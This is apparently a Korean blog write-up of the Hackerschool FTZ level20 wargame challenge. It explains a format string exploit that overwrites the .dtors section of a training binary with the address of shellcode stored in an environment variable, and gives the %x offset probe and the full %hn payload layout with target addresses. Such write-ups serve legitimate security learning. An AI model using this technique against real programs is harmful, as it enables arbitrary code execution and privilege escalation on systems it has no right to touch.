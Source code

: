 ```gdb
End of assembler dump.
```

최종적으로 정리하면 아래 그림처럼 되겠다.

<img src="/picture/hacker_school/ftz/level20.png" width="1000"/>

참고로 .ctor .dtor사용하던 시절은 지났고 지금은(gcc 4.7 이후부터는) .ctors .dtors대신에 .init_array .fini_array를 사용한다고 한다.

### attackme

.dtors의 주소값이 0x8049594이다. hackerschool 플랫폼은 stack에만 ASLR이 걸려있기 때문에 나머지는 고정적인 주소값을 가지게 된다.<br>
따라서 0x8049598주소부터 4byte를 쉘코드의 주소로 변조하면 된다.<br>
쉘코드는 level17 때처럼 환경변수에 넣어놓고 사용했다.

<pre>
[level20@ftz level20]$ readelf -S attackme
There are 34 section headers, starting at offset 0x1dcc:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al

  ... (중략) ...

  [19] .dtors            PROGBITS        08049594 000594 000008 00  WA  0   0  4

  ... (중략) ...

Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)
</pre>

우선 아래와 같이 입력값이 어디에 위치하게 되는지 알아보았다.

```bash
[level20@ftz tmp]$ ../attackme
AAAABBBB %x %x %x %x %x
AAAABBBB 4f 4212ecc0 4207a750 41414141 42424242
```

세번째 %x부터 입력값이 나오는 것을 확인할 수 있었다. 따라서 아래와 같이 구성한다면 .dtors section에 shellcode의 주소값을 넣을 수 있다.

```
target address 상위 2byte      4byte padding       target address 하위 2byte
\x9a\x95\x04\x08               AAAA                \x98\x95\x04\x08

0xbfff값을 입력하기 위해 0xbfffbyte(12+8+8+49123) 출력        target address 상위 2byte에 입력
%8x%8x%49123x                                                 %hn

0xff03값을 입력하기 위해 마저 16132byte 출력(0xbfff+16132=0xff03)       target address 하위 2byte에 입력
%16132x                                                                 %hn
```
